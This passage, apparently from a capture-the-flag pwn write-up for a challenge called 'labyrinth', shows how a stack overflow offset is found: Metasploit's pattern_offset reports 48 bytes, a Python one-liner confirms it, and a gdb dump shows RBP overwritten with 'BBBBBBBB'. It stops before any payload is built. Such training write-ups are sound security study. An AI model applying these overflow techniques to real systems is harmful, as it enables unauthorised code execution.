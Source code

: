 The RBP contains an overflow address `0x6241376241366241`. Calculating offset:
```
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x6241376241366241
[*] Exact match at offset 48
```
Double checking offset:
```
$ python -c 'print("A"*48+"B"*8)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```
gdb test
```
[----------------------------------registers-----------------------------------]                                    
RAX: 0x0                                                                                                            
RBX: 0x0                                                                                                            
RCX: 0x7ffff7d14a37 (<write+23>:        cmp    rax,0xfffffffffffff000)                                              
RDX: 0x0                                                                                                            
RSI: 0x7fffffffbc20 --> 0x6d31333b315b1b0a                                                                          
RDI: 0x7fffffffbb00 --> 0x7ffff7c620d0 (<funlockfile>:  endbr64)                                                    
RBP: 0x4242424242424242 ('BBBBBBBB')                                                                                
RSP: 0x7fffffffdd80 --> 0x0                                                                                         
RIP: 0x7ffff7c2000a --> 0x1000000000000                                                                             
R8 : 0x23 ('#')                                                                                                     
R9 : 0x7ffff7d7cd70 (mov    r10,QWORD PTR [rsi-0x1b])                                                               
R10: 0x20554f59205d2d5b ('[-] YOU ')                                                                                
R11: 0x246                                                                                                          
R12: 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")             
R13: 0x401405 (<main>:  push   rbp)                                                                                 
R14: 0x0                                                                                                            
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0                                                                      
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)                                   
[-------------------------------------code-------------------------------------]                                    
   0x7ffff7c20003:      add    BYTE PTR [rax],cl                                                                    
   0x7ffff7c20005:      add    BYTE PTR [rax],al                                                                    
   0x7ffff7c20007:      add    BYTE PTR [rdi+0x7e],dl                                                               
=> 0x7ffff7c2000a:      add    BYTE PTR [rax],al                                                                    
   0x7ffff7c2000c:      add    BYTE PTR [rax],al                                                                    
   0x7ffff7c2000e:      add    BYTE PTR [rax],al                                                                    
```